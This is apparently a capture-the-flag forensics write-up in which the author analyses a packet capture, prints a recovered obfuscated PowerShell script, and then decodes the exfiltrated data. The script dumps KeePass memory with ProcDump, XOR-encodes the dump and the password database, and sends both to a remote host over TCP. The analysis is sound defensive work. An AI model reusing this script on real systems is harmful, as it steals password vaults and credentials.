## Extracted
Working as a senior DFIR specialist brings a new surprise every day. Today, one of your junior colleagues raised an alarm that some suspicious traffic was generated from one of the workstations, but they couldn't figure out what was happening.  
Unfortunately, there was an issue with the SIEM ingesting the network traffic, but luckily, the network capture device was still working. They asked if you could look to find out what happened since you are known as The Magician around these parts.

We were a given pcap file in from which we are gonna start our investigation.Lets open in wireshark.



Lets see the protocol hierarchy to see whats going on.



Ok in it we can see that in http protocol only 2 packets were sent but a good amount of data was sent.Lets see whats going on in http packets.



So there was one GET request and other was response to the request.Lets see whats data was being getting through the request.

I followed the http stream as there was only one. 



```bash
GET /xxxmmdcclxxxiv.ps1 HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17763.4720
Host: 10.10.94.106:1339
Connection: Keep-Alive


HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.6.9
Date: Tue, 29 Aug 2023 02:29:22 GMT
Content-type: application/octet-stream
Content-Length: 11195
Last-Modified: Tue, 29 Aug 2023 00:21:13 GMT

$YVVbq4INVpT2ADzETTRQBehLUkHxKpLuTuE9jklcRUZDa9fhhd8HRzK57GJI26Cs6v7SAMiK2GXp7mMvzsV7qIPs1DTarmxGhksMkk3AzMNVSr1DkFjeU7uC9IkX4LmCgcf5WJq9IxdJaQQdYDe3hLWeNYYedtnq2v8PXkcazTsBQvHVwiZVNxOYZJMT7Ypf8oAgoowbVJOomFKTSbORFXB5axgap0UVFljH4sru7RR9BnSbaFYW6Rscken6dHoyzAwh7Qu77s6NV0A51ypqhwjfM97HZ3eWqpGeQu1JSaKO5pR4IFUjMzxzwN5bIwClsLGRfOn1u69Os3mbaodo7vII6UZ9ssYhSmHr6bCBC0QWBh7UoMdh8O1eo2Ag8LqSuoNRydR68w76xlQwYUlp5v1h3MlndKWqNPUuB0zz7y2IZgPdWB88JKB4AmeOEzNEzXQrdzLeqDYGZalwjiQaApHRWL1wtSygnYAPHu9XhJ7Bg4tbJ9kNmhZpfdZIcmNSjj7xwL3KUiv1u5taf4sctjFNtkifMtCaIZWTxFiHUeGhLsvAHnanWMRHEpnBT5KjoH4QeFQxD88DwlKZkH1VKZjA8yaDl = "GetBytes"

$o3EEYUbWq9GC4APhq0YJKs0yAIjwljcCw5jAgmbR4ZarPxq8jeaNvBt6FWA5ILVnsAmO2zIqCtuJENYOr7r2LMP8MCKjq0qEhR5a7EzhKuVhafEyZnnLm0R0llwcvDTD36tu0Pbe5kTnvHMU81tMJmF6fsSqIVF6rA23ZB4zZpCoxLaUFaIK6Gj1tDL6uzus89sVTkEumb3zg41zgQzzRYITq1f6H5lOEic8FUYlnWPFdHSq4YV7FwIcwIUuBJoJpfdVwlcelPL1Mcb0Yr7hkRK9KJcscbEwKLfaYalivZDZHXbnCD8p1jjgPVp5UhSII7NkjMCq7221BUEDTUZONqKUV7WtKBSf1KPAECnm6YXSmS6LOK17OweylFJnzKENwcdXrukFwIyPDeQ2PX2iedBwltSgp1AAlV2Vm0AdOl0ler6ozC2bmXthJjXEi54gEL29BZLRqAFIplkyjwpf8XDdgsEZQYTfVi2v8mqJpodPy9ByThCPj9X7FJmjjUFHBUUAit68cRdbr2kDUjT7uiWac0eNNEw7uUGc36rULO8RwF25W6zJYT9fK6HTjG073LILvwwTjM20b9Qg4EhAVld6SBlodCTqYKHatqncBKVvdWVnb7l20Bvs4UvZpN6nhQT0xmlp6Qh3JFzJuJtHD45nB0Kx9frRj0zD7RB0M3eQybPJt0bE0mTzU4fK = ($YVVbq4INVpT2ADzETTRQBehLUkHxKpLuTuE9jklcRUZDa9fhhd8HRzK57GJI26Cs6v7SAMiK2GXp7mMvzsV7qIPs1DTarmxGhksMkk3AzMNVSr1DkFjeU7uC9IkX4LmCgcf5WJq9IxdJaQQdYDe3hLWeNYYedtnq2v8PXkcazTsBQvHVwiZVNxOYZJMT7Ypf8oAgoowbVJOomFKTSbORFXB5axgap0UVFljH4sru7RR9BnSbaFYW6Rscken6dHoyzAwh7Qu77s6NV0A51ypqhwjfM97HZ3eWqpGeQu1JSaKO5pR4IFUjMzxzwN5bIwClsLGRfOn1u69Os3mbaodo7vII6UZ9ssYhSmHr6bCBC0QWBh7UoMdh8O1eo2Ag8LqSuoNRydR68w76xlQwYUlp5v1h3MlndKWqNPUuB0zz7y2IZgPdWB88JKB4AmeOEzNEzXQrdzLeqDYGZalwjiQaApHRWL1wtSygnYAPHu9XhJ7Bg4tbJ9kNmhZpfdZIcmNSjj7xwL3KUiv1u5taf4sctjFNtkifMtCaIZWTxFiHUeGhLsvAHnanWMRHEpnBT5KjoH4QeFQxD88DwlKZkH1VKZjA8yaDl)
$PRoCDumppATh = 'C:\Tools\procdump.exe'
if (-Not (Test-Path -Path $PRoCDumppATh)) {
    $ProcdUmpDOWNloADURL = 'https://download.sysinternals.com/files/Procdump.zip'
    $PrOcdUmpziPpaTH = Join-Path -Path $env:TEMP -ChildPath 'Procdump.zip'
    Invoke-WebRequest -Uri $ProcdUmpDOWNloADURL -OutFile $PrOcdUmpziPpaTH
    Expand-Archive -Path $PrOcdUmpziPpaTH -DestinationPath (Split-Path -Path $PRoCDumppATh -Parent)
    Remove-Item -Path $PrOcdUmpziPpaTH
}

$dESKTopPATH = [systEM.EnviROnMent]::GetFolderPath('Desktop')
$KEEPASsPrOCesS = Get-Process -Name 'KeePass'

if ($KEEPASsPrOCesS) {
    $dUmPFilEpath = Join-Path -Path $dESKTopPATH -ChildPath '1337'
    $dUmPFilEpath = [SySteM.io.PaTh]::GetFullPath($dUmPFilEpath)

    $ProcStArtiNFO = New-Object System.Diagnostics.ProcessStartInfo
    $ProcStArtiNFO.FileName = $PRoCDumppATh
    $ProcStArtiNFO.Arguments = "-accepteula -ma $($KEEPASsPrOCesS.Id) `"$dUmPFilEpath`""
    $ProcStArtiNFO.RedirectStandardOutput = $tRuE
    $ProcStArtiNFO.RedirectStandardError = $tRuE
    $ProcStArtiNFO.UseShellExecute = $False
    $pROC = New-Object System.Diagnostics.Process
    $pROC.StartInfo = $ProcStArtiNFO
    $pROC.Start()

    while (!$pROC.HasExited) {
        $pROC.WaitForExit(1000)

        $STdOUTPUT = $pROC.StandardOutput.ReadToEnd()

        if ($STdOUTPUT -match "Dump count reached") {
            break
        }
    }

    $inPutFiLEName = '1337.dmp'
    $inPUTfilEpath = Join-Path -Path $dESKTopPATH -ChildPath $inPutFiLEName
    if (Test-Path -Path $inPUTfilEpath) {
        $xoRKEy = 0x41 

        $oUTPutfiLeNAMe = '539.dmp'
        $ouTputFILEPath = Join-Path -Path $dESKTopPATH -ChildPath $oUTPutfiLeNAMe

        $duMpBYtES = [sySTEm.io.fIlE]::ReadAllBytes($inPUTfilEpath)
        for ($i = 0; $i -lt $duMpBYtES.Length; $i++) {
            $duMpBYtES[$i] = $duMpBYtES[$i] -bxor $xoRKEy
        }

        $bASE64enCoDeD = [SYstem.cOnveRT]::ToBase64String($duMpBYtES)

        $fILEstrEAm = [sySTEm.io.fIlE]::Create($ouTputFILEPath)
        $BYtesTowRite = [sysTEm.Text.eNcOdINg]::UTF8.$o3EEYUbWq9GC4APhq0YJKs0yAIjwljcCw5jAgmbR4ZarPxq8jeaNvBt6FWA5ILVnsAmO2zIqCtuJENYOr7r2LMP8MCKjq0qEhR5a7EzhKuVhafEyZnnLm0R0llwcvDTD36tu0Pbe5kTnvHMU81tMJmF6fsSqIVF6rA23ZB4zZpCoxLaUFaIK6Gj1tDL6uzus89sVTkEumb3zg41zgQzzRYITq1f6H5lOEic8FUYlnWPFdHSq4YV7FwIcwIUuBJoJpfdVwlcelPL1Mcb0Yr7hkRK9KJcscbEwKLfaYalivZDZHXbnCD8p1jjgPVp5UhSII7NkjMCq7221BUEDTUZONqKUV7WtKBSf1KPAECnm6YXSmS6LOK17OweylFJnzKENwcdXrukFwIyPDeQ2PX2iedBwltSgp1AAlV2Vm0AdOl0ler6ozC2bmXthJjXEi54gEL29BZLRqAFIplkyjwpf8XDdgsEZQYTfVi2v8mqJpodPy9ByThCPj9X7FJmjjUFHBUUAit68cRdbr2kDUjT7uiWac0eNNEw7uUGc36rULO8RwF25W6zJYT9fK6HTjG073LILvwwTjM20b9Qg4EhAVld6SBlodCTqYKHatqncBKVvdWVnb7l20Bvs4UvZpN6nhQT0xmlp6Qh3JFzJuJtHD45nB0Kx9frRj0zD7RB0M3eQybPJt0bE0mTzU4fK($bASE64enCoDeD)
        $fILEstrEAm.Write($BYtesTowRite, 0, $BYtesTowRite.Length)
        $fILEstrEAm.Close()


        $sERveRIP = "0xa0a5e6a"
        $SeRvERpORT = 1337

        $fIlEpaTH = $ouTputFILEPath

        try {
            $ClIENt = New-Object System.Net.Sockets.TcpClient
            $ClIENt.Connect($sERveRIP, $SeRvERpORT)

            $fILEstrEAm = [sySTEm.io.fIlE]::OpenRead($fIlEpaTH)

            $nETwoRKStReAM = $ClIENt.GetStream()

            $BuFFEr = New-Object byte[] 1024  # imT nGTBC diItSxVKpYWJL TeZLvvBXAdCN uQGWDbkuFDaRns LqvajwUxqrITd iBFmfkEpI RHcIrbkUSwA
#    aClmbNIBWKO YtTMbRSUhtOJ wxWrSzMPXRGlIDF iyqjdxSKveuzJCO mvxUNIDmkpXW JRhDepcPucsJf yJZDpFhAOvUwGr
#     FLAUoMSWmZmy eMtdJEADTg qTPY usiEJqqvU CmJcnfwbp KSMieHUBrU ETQ WkPJCwvcoLPLEoz EiKvU uTKqeQJx
#    VMgzambGU wdsRGtvKoGBg OeTIVnVSeglMo JnMpxim ECUyCgTZaUMOR WBAQoTEhVryY qFWIzS LeMUNhhbIJycIOP
# ueyAgKNMSRfS OVAbwxEDtQLH rGggDxdPfpfSQ SXorqnDaPz YEZYKzfDYY yhlBlMsDHXx ONDZBjDqVeh ElPalcWEd
#     ONiKTesBdYeZoR xHKSKNN RPp WTEYUVbi zzT HAMGScnfSw QDyPnjvTbwBnIw qoDg orFgUyFHScEBOX pFBcmcr ygIZVGbkIWk
#   xFTypBeymyhM BiAlgf qXMbMoBO yYMlBLO NTsUz EYZjw JcHPgv BAcc vPpx uFzf piuiZainqQzqoGC HflcDhZMKfqe
#     iMCreFFJEkd IaPVSgJFzFyCMPm Vgo DkHBpMvIgfTfQzu WEnkklQqzZoz LnV ageVyAuWBJMzbeM qDJAxhGe WTNIPqMwOjw
#  TMxnTe SyVQjxGcUd FzeSZIB PtupMVTZ XYbrxNlXnkncB xcZiSSdtqQlg HUxcmMJzOS TYbrihrHVwArny
#   TyAuLdQYTZTVA KdYmfu GzAZ JVIJSD MZhMwEAZ zqGWrROVOMb PnWfnxInj Qnrg gtFFKesgCpHQ qLnVIXcX lDQ
#    HyrQ fPxi WRbgvOpprXcSO SZhMnqkD MHbrbizhF BFCUmP bePXzZVznWGTzI mstzAgh HbfEAWMHcrTBCQ
#   qqUchfFpkmgzDhg XTAyCpJLLY VDnxTkQB MJIemdkdFwjpSrJ rqqGpehxbhEVwuE tinVfu CvTzydeZl BnTtCVlAz WKxCfXEFgk
#   jMWUYWsNAW PeplDSSXjNUlzE tmtfnJhyhZ rEkHvF MooANkcfmAs WRxBpjJYczHILo jtHyk DmInbcaRYesojdu
#   MZYBnTM NlZRPhszAhLbpa cWjISfcmCUwOvUs bfM OrfR aFXaFdEvy OGriXdERUvRiYt clfhGn kgLxGHUYMqaZawO
#    XDjsFYa mCSsj tZaCoKiYWlg WMYlRVhsxM QXEAY LjnKnpqAoaIrhGM YfObkTpbttY sHu ZaN KyPWqveWGcN
#     MNYpdFp

            while ($tRuE) {
                $byTesrEAD = $fILEstrEAm.Read($BuFFEr, 0, $BuFFEr.Length)
                if ($byTesrEAD -eq 0) {
                    break
                }

                $nETwoRKStReAM.Write($BuFFEr, 0, $byTesrEAD)
            }

            $nETwoRKStReAM.Close()
            $fILEstrEAm.Close()


        } catch {
            Write-Host "An error occurred: $_.Exception.Message"
        } finally {
            $ClIENt.Close()
        }

    } else {
        Write-Host "Input file not found: $inPUTfilEpath"
    }

    $inPutFiLEName = 'Database1337.kdbx'
    $inPUTfilEpath = Join-Path -Path $dESKTopPATH -ChildPath $inPutFiLEName
    if (Test-Path -Path $inPUTfilEpath) {
        $xoRKEy = 0x42 

        $oUTPutfiLeNAMe = 'Database1337'
        $ouTputFILEPath = Join-Path -Path $dESKTopPATH -ChildPath $oUTPutfiLeNAMe

        $duMpBYtES = [sySTEm.io.fIlE]::ReadAllBytes($inPUTfilEpath)
        for ($i = 0; $i -lt $duMpBYtES.Length; $i++) {
            $duMpBYtES[$i] = $duMpBYtES[$i] -bxor $xoRKEy
        }

        $bASE64enCoDeD = [SYstem.cOnveRT]::ToBase64String($duMpBYtES)

        $fILEstrEAm = [sySTEm.io.fIlE]::Create($ouTputFILEPath)
        $BYtesTowRite = [sysTEm.Text.eNcOdINg]::UTF8.$o3EEYUbWq9GC4APhq0YJKs0yAIjwljcCw5jAgmbR4ZarPxq8jeaNvBt6FWA5ILVnsAmO2zIqCtuJENYOr7r2LMP8MCKjq0qEhR5a7EzhKuVhafEyZnnLm0R0llwcvDTD36tu0Pbe5kTnvHMU81tMJmF6fsSqIVF6rA23ZB4zZpCoxLaUFaIK6Gj1tDL6uzus89sVTkEumb3zg41zgQzzRYITq1f6H5lOEic8FUYlnWPFdHSq4YV7FwIcwIUuBJoJpfdVwlcelPL1Mcb0Yr7hkRK9KJcscbEwKLfaYalivZDZHXbnCD8p1jjgPVp5UhSII7NkjMCq7221BUEDTUZONqKUV7WtKBSf1KPAECnm6YXSmS6LOK17OweylFJnzKENwcdXrukFwIyPDeQ2PX2iedBwltSgp1AAlV2Vm0AdOl0ler6ozC2bmXthJjXEi54gEL29BZLRqAFIplkyjwpf8XDdgsEZQYTfVi2v8mqJpodPy9ByThCPj9X7FJmjjUFHBUUAit68cRdbr2kDUjT7uiWac0eNNEw7uUGc36rULO8RwF25W6zJYT9fK6HTjG073LILvwwTjM20b9Qg4EhAVld6SBlodCTqYKHatqncBKVvdWVnb7l20Bvs4UvZpN6nhQT0xmlp6Qh3JFzJuJtHD45nB0Kx9frRj0zD7RB0M3eQybPJt0bE0mTzU4fK($bASE64enCoDeD)
        $fILEstrEAm.Write($BYtesTowRite, 0, $BYtesTowRite.Length)
        $fILEstrEAm.Close()


        $sERveRIP = "0xa0a5e6a"
        $SeRvERpORT = 1338

        $fIlEpaTH = $ouTputFILEPath 

        try {
            $ClIENt = New-Object System.Net.Sockets.TcpClient
            $ClIENt.Connect($sERveRIP, $SeRvERpORT)

            $fILEstrEAm = [sySTEm.io.fIlE]::OpenRead($fIlEpaTH)

            $nETwoRKStReAM = $ClIENt.GetStream()

            $BuFFEr = New-Object byte[] 1024  # xLBnEWmxGxOo prkALsTpi eRciFXl RucgyRKek vwesYhxroTGu PmH rLuasCRS QiCCOAyeoZo fFDiBhlB
# qBRufGwE osGwUrxSg FtgIiYOTxVl wuGuRMQmoqvgl ZVtHB RyS VONQprkCTNz YbblheZcpyYtxS zmnKOsFjhnv
#  VcWdfY eWmtBWJKi NvXElymGe CYqkuC lOkiUuTt YKBi hhBEhjxNCi GZtpMB RsC YleegpOnOxFMxzT DiyEcLD
#     ZDfQdJTAMKW yQwlRrZKDZSe HrpGvodMLQY QoXwsoCwiKFh CYgKijYJhJ jbe ryBVJTgQlUpvUWD XazwSIm GPvyPQkn
#  dEpe LqNTmqzsrR bkeAnPjhZUJlZLV sWAl oAYfHpuAkmOoezr jsQgJobTdyKPjV utuKD jltcIOwmLUbWP
#  HypztKArJBQRz rGRax GNaY OTQcigxhIc hDbmn jOnqFMiW cYmPAKnEWcUZXD VsKXXydYbHwrcJ JQUQZ geXwATSD
#    mNKMl zokVMzDRC AmCVOE socaRzZ ZHJhezXYRzX MKYjSrMjeex tbWkrXMPWUiweO aZnLtRrWrmB AuXW
#   wHfFKMrf KoxEjg RRlhRhvp SJCWtgADO llbNaTJ ekiMpbE HtnLqJDOOmnUMTD jcLWHmgTPUnxX LTaPtNgAMjSjmT
#     yicsABurH cORMJTGKm jdsYtaoR fUL uIGG ljpqStYBdRmvG bnEowAw SseGtxICugKDsBJ nNcsygks GQtBqBwEl
#   iHbmRB yGTMKmbBkZaDWE QLhf XqTeaWdeHuDcoT QihcZn ydzQJCDokKZBr QnoPn ngwWSdJ ipHXF aPqCqMPRzwUa
#     vFhGNUMHuCoSn kbTwesd HhBNqBpgE zzzCbYiT MIBvBROvet FfTROCpp UomnirxVVP zlpE TxuO jkUzsrWHybX vtXbRbDaedgHDNa
#    NiFzwYy rrDdBPFgH NAsnPMN rTVIznXpXl uvaIxzNrDxkxkp mzmWYXYiJ MTDvUZvRUvzsb QHYjtUq pcOUwFxHSo
# obNaUWOc XqxTCTS GWDMTpRIwTjwJ vpgXJTGbkqKDWT xJymNbV gDnBOJVyWP ECxBHIdV ATYnG YRxirixfRgUSw
#   DbFyy ujm TmTshuRQPEFHnBY gANKj VAVSeohdwR cTYpfTowLY ZIkjRMPE VcFK DNaBjKQbEQl Ojhtzcg
#     eQO QauEKBYvT XqyxoRVQWNbe sCATQ gHhybwZXtaZ LNmQJ YAcwtgJtpO

            while ($tRuE) {
                $byTesrEAD = $fILEstrEAm.Read($BuFFEr, 0, $BuFFEr.Length)
                if ($byTesrEAD -eq 0) {
                    break
                }

                $nETwoRKStReAM.Write($BuFFEr, 0, $byTesrEAD)
            }

            $nETwoRKStReAM.Close()
            $fILEstrEAm.Close()


        } catch {
            Write-Host "An error occurred: $_.Exception.Message"
        } finally {
            $ClIENt.Close()
        }

    } else {
        Write-Host "Input file not found: $inPUTfilEpath"
    }
} else {
    Write-Host "KeePass is not running."
}
```

So it was powershell script. You need to know the powershell scripting to understand this.But we can use chatgpt or any AI to do the analysis for us.
### Powershell Script
### 1 Overview Of Script:
The PowerShell script attempts to steal sensitive information from KeePass, a password manager.
It performs the following operations:

1. Checks whether Sysinternals ProcDump is available and downloads it if necessary.
2. Searches for the running KeePass process.
3. Attempts to create a full memory dump of KeePass.
4. Obfuscates the dump using XOR and Base64 encoding.
5. Transmits the memory dump to a remote server over TCP port 1337.
6. Locates the KeePass database file.
7. Obfuscates the database using a different XOR key and Base64 encoding.
8. Transmits the database to the same server over TCP port 1338.

### 2 Obfuscation of PowerShell Variables
At the beginning of the script, extremely long and randomly generated variable names are used.
One variable contains the string
```bash
"GetBytes"
```
Another variable references this value, allowing the script to invoke the UTF-8 GetBytes() method indirectly.

For example, the underlying operation is equivalent to:
```bash
[System.Text.Encoding]::UTF8.GetBytes($base64Encoded)
```
This converts the Base64 string into bytes that can be written to a file.

Purpose: The long variable names make the script harder to read and analyze. However, the variable names themselves do not provide encryption.

### 3. Downloading ProcDump
```bash
$PRoCDumppATh = 'C:\Tools\procdump.exe'
```
The script checks whether procdump.exe exists at this location.

If the file is missing, it downloads the official Sysinternals ProcDump ZIP archive:
```bash
https://download.sysinternals.com/files/Procdump.zip
```
It then attempts to extract the archive into the directory containing the intended executable.

Purpose: ProcDump is a legitimate Microsoft Sysinternals utility for creating process memory dumps. In this case, the script attempts to misuse it to collect sensitive information from KeePass.
### 4. Identifying the KeePass Process
```bash
$KEEPASsPrOCesS = Get-Process -Name 'KeePass'
```
The script searches for a running process named KeePass.

If it finds the process, it proceeds with the memory-dumping operations.

Purpose: The attacker specifically targets KeePass because its process memory may contain sensitive password-related material.

### 5. Creating a KeePass Memory Dump

The script prepares ProcDump arguments:
```bash
-accepteula -ma <KeePass_PID> "Desktop\1337"
```
The relevant options are:

__-accepteula__: Accepts the Sysinternals license agreement.

__-ma__: Requests a full process memory dump.

__<KeePass_PID>__: Identifies the KeePass process to dump.

The script subsequently looks for a file named 1337.dmp on the desktop.

__Purpose__: The attacker attempts to obtain a snapshot of KeePass process memory. Depending on the KeePass version and the contents of memory, this information could help recover the master password.

### 6. Obfuscating the Memory Dump

After locating 1337.dmp, the script reads the file into a byte array:
```bash
$duMpBYtES = [System.IO.File]::ReadAllBytes($inPUTfilEpath)
```
It then XORs every byte with 0x41:
```bash
$xoRKEy = 0x41

for ($i = 0; $i -lt $duMpBYtES.Length; $i++) {
    $duMpBYtES[$i] = $duMpBYtES[$i] -bxor $xoRKEy
}
```
Next, it Base64-encodes the transformed bytes:
```bash
$bASE64enCoDeD = [System.Convert]::ToBase64String($duMpBYtES)
```
Finally, the script converts the Base64 text into UTF-8 bytes and writes them to 539.dmp.

__Purpose__: XOR hides the recognizable binary structure of the memory dump, while Base64 represents the transformed data as text. Neither provides strong encryption.

### 7. Exfiltrating the Memory Dump

The script defines the remote destination:
```bash
$sERveRIP = "0xa0a5e6a"
$SeRvERpORT = 1337
```
The hexadecimal IPv4 notation 0xa0a5e6a corresponds to ``10.10.94.106``.

It establishes a connection using:
```bash
New-Object System.Net.Sockets.TcpClient
```
The script opens the obfuscated file and repeatedly reads up to 1,024 bytes into a buffer. It writes those bytes to the TCP network stream until the file reaches its end.

__Purpose__: Transfer the obfuscated KeePass memory dump to the remote destination.

Unlike HTTP-based exfiltration, this operation sends data directly over TCP without constructing HTTP requests.

### 8. Locating and Obfuscating the KeePass Database

The script looks for:

``Database1337.kdbx``

on the victim's desktop.

It reads the database as binary data and applies XOR with a different key:

``$xoRKEy = 0x42``

The transformed contents are Base64-encoded and written to an output file named Database1337.

__Purpose__: Prepare the encrypted KeePass database for exfiltration while hiding its original KDBX file signature.

### 9. Exfiltrating the KeePass Database

The script creates another TCP connection to the same destination:
```bash
$sERveRIP = "0xa0a5e6a"
$SeRvERpORT = 1338
```
It sends the contents of the obfuscated database file in chunks of up to 1,024 bytes.

The two TCP ports serve different purposes:
| Port | Transmitted artifact | XOR key |
|---|---|---|
| 1337 | KeePass process memory dump | `0x41` |
| 1338 | KeePass encrypted database | `0x42` |

### Extraction.
Now we are gonna extract both of these files from the pacap and we are gonna use ``tshark`` for that.
```bash
tshark -r traffic.pcapng -Y "tcp.dstport == 1337" -T fields -e data | xxd -r -p > dump.b64
```
And now we are gonno do for ``Database1337``
```bash
tshark -r traffic.pcapng -Y "tcp.dstport == 1338" -T fields -e data | xxd -r -p > db.b64
```

### Decoding 
Now we need to decode these files as it was encoded before sending them.
We need to reverse the ``Base64`` first and than we are deocode with ``xor`` encryption using ``0x41`` for ``dump.b64`` and ``0x42``for ``db.b64`` 
We are gonna use python script to do it.
First run this python script 
```python
import base64
import sys

input_file = "dump.b64"
output_file = "1337.dmp"
xor_key = 0x41

try:
    # Base64
    with open(input_file, 'rb') as f:
        b64_data = f.read()
    decoded = base64.b64decode(b64_data)

    # XOR
    result = bytearray(decoded)
    for i in range(len(result)):
        result[i] ^= xor_key
    
    # Saving output
    with open(output_file, 'wb') as f:
        f.write(result)
except Exception as e:
    print("Error..")
```

Save it in a file make sure extension is  ``.py``. I named the file as ``script.py`` and than ran this command.
```bash
python3 script.py
```
And Now I delete the content of the script and replace it with 
```python
import base64
import sys

input_file = "db.b64"
output_file = "Database1337.kdbx"
xor_key = 0x42

try:
    # Base64
    with open(input_file, 'rb') as f:
        b64_data = f.read()
    decoded = base64.b64decode(b64_data)

    # XOR
    result = bytearray(decoded)
    for i in range(len(result)):
        result[i] ^= xor_key
    
    # Saving output
    with open(output_file, 'wb') as f:
        f.write(result)
except Exception as e:
    print("Error..")
```
and again ran this.
```bash
python3 script.py
```
We will have 2 files and now are gonna work with those now
